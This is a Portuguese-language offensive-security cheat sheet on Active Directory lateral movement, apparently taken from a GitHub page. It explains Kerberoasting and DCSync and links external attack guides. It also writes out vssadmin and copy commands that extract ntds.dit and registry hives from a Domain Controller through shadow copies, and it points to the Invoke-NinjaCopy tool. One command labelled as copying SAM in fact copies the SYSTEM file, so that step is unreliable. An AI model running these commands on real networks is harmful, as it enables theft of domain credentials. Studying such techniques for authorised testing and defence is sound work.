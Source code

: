
## Lateral Moviment
> ___


### Creds das Service Accounts (Kerberoasting)
> ___

E se você se encontrar em um cenário em que você é um usuário limitado, não consegue extrair senhas da memória e não teve sorte com as senhas no sistema host...

O que é Kerberoast?

permite que qualquer usuário de domínio solicite tickets TGS ao Kerberos que são criptografados com hash NTLM da senha plaintext de uma conta de usuário de domínio usada como conta de service e quebre-os offline, evitando bloqueios de conta do AD.

- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast
- https://www.thehacker.recipes/ad/movement/kerberos/kerberoast


### Dump dos hash do Domain Controller (Shadow Copy ou Raw Copy)
> ___


Depois de obter acesso administrativo ao domain, a maneira antiga de extrair todos os hashes do DC era executar comandos no DC e usar técnicas de Shadow Volume ou Raw Copy para extrair o arquivo Ntds.dit. Isso pode ser feito de algumas formas:

#### 1 - 

```vssadmin create shadow /for=C:```

#Copy SAM
```copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[DISK_NUMBER]\windows\system32\config\SYSTEM C:\Extracted\SAM```

#Copy SYSTEM
```copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[DISK_NUMBER]\windows\system32\config\SYSTEM C:\Extracted\SYSTEM```

#Copy ntds.dit
```copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[DISK_NUMBER]\windows\ntds\ntds.dit C:\Extracted\ntds.dit```

```reg SAVE HKLM\SYSTEM c:\SYS```
#Delete created vol
```vssadmin delete shadows /for= [/oldest | all | shadow=]```

#### 2 - 

NinjaCopy tool, uma vez como Domain Controller, pode ser usado para pegar o arquivo Ntds.dit:

https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1



### DCSync
> ___

Mais recentemente, o DCSync foi introduzido e mudou o jogo no despejo de hashes de Domain Controller. O conceito do DCSync é que ele se passa por um Domain Controller para solicitar todos os hashes dos usuários daquele domínio. Isso significa que, desde que você tenha permissões, não será necessário executar nenhum comando no DC e não será necessário descartar nenhum arquivo no DC. Para que o DCSync funcione, é importante ter as permissões adequadas para extrair hashes de um DC. Geralmente limitado aos ```Domain Admins```, ```Enterprise Admins```, ```Domain Controllers groups``` e qualquer pessoa com permissões de ```Replicating Changes``` definidas como ```Allow``` (ou seja, ```Replicating Changes All```/```Replicating Directory Changes```), o DCSync permitirá que seu usuário execute este ataque.

Existem algumas formas de fazer, aqui tem exemplos:

- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync

- https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync

- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync
